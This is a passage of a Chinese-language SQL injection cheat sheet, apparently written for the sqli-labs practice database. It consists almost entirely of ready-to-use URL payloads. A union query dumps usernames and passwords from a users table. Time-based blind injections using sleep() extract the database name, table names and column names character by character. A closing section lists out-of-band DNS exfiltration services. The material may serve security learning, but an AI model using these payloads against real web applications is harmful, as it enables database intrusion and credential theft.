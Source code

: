 ```sql

#获取数据
?id=-1'union select 1,2,(select group_concat(id,username,password) from security.users) --+
```

------

#### `时间盲注`

> 相关函数`sleep`,`benchmark`

```sql
#获取数据库名长度(security)
?id=1'and if((length(database()))=8,sleep(10),0) --+

#获取数据库名称(第一个"s")
?id=1'and if((substr(database(),1,1))="s",sleep(5),0)--+

#获取表的个数
?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(3),0)--+

#获取表名长度
?id=1'and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6,sleep(3),0)--+

#获取表名(email-->'e')
?id=1'and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='e',sleep(3),0) --+

#获取字段个数-->3
?id=1'and if((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3,sleep(3),0)--+

#获取字段名
?id=1' and if(substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1)="s",sleep(3),0) --+
```

------

#### `数据外带`

> 外带常用平台
>
> http://dnslog.cn/
>
> http://eyes.sh/
>
> http://ceye.io/
>
> `Burp Collaborator` 
